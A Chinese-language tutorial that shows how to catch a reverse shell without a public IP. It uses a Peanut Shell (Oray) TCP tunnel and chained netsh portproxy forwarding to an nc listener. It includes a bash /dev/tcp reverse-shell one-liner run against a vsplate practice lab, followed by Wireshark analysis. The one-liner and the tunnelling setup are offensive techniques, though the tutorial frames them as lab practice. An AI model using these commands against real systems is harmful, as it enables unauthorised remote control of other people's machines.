









**不需要公网ip也能反弹shell**

**1、下载花生壳客户端，点击映射数，自动打开web控制台**

下载链接：https://hsk.oray.com/download/



**2、点击添加映射**



**3、填入**：

0x01映射类型：tcp

0x02外网域名：2531j09e25.wicp.vip(自动分配的一个)

0x03内网主机：192.168.1.102（花生壳客户端转发流量到内网的一台机器ip）

0x04内网端口：54322(内网的一台机器ip的监听端口)



**4、192.168.1.102内网主机代理转发netsh设置：**

    netsh interface portproxy add v4tov4 listenaddress=192.168.1.102 listenport=54322 connectaddress=192.168.1.104 connectport=54322

解释：在192.168.1.102机器上开启监听端口54322，转发流量至：192.168.1.104:54322另一台内网机器上，确保IP Hepler服务已开启，监听端口已监听，命令：```netstat -ano | findstr :54322```，备注：```taskkill /pid 95728 /F``` 强制杀死进程,强制杀死后需要开启IP Helper服务



**5、192.168.1.104内网主机代理转发netsh设置：**


    netsh interface portproxy add v4tov4 listenaddress=192.168.1.104 listenport=54322 connectaddress=192.168.136.128 connectport=54322


解释：在192.168.1.104机器上开启监听端口54322，转发流量至：192.168.136.128:54322虚拟机上，确保IP Hepler服务已开启，命令： ```netstat -ano | findstr :54322```监听端口已监听，备注：```taskkill /pid 3532 /F ```强制杀死进程



**6、192.168.136.128虚拟机监听端口：54322，宿主机：192.168.1.104**

执行：

    nc -lvvnp 54322



**7、执行反弹shell命令,靶机链接：https://www.vsplate.com/labs.php#**

    bash -i &> /dev/tcp/2531j09e25.wicp.vip/19478 0>&1

解释：

2531j09e25.wicp.vip：花生壳web控制台上的域名

19478：花生壳web控制台上的端口




**8、可以看到，成功反弹shell**



**9、Wireshark抓包分析：**

在机器192.168.1.104抓包，监控Vmware network Adapter VMnet8网卡和无线网卡，可以看到，192.168.1.102向192.168.1.104（本机）发包，然后，192.168.136.1虚拟ip（本机）向192.168.136.128发包



**结束！**
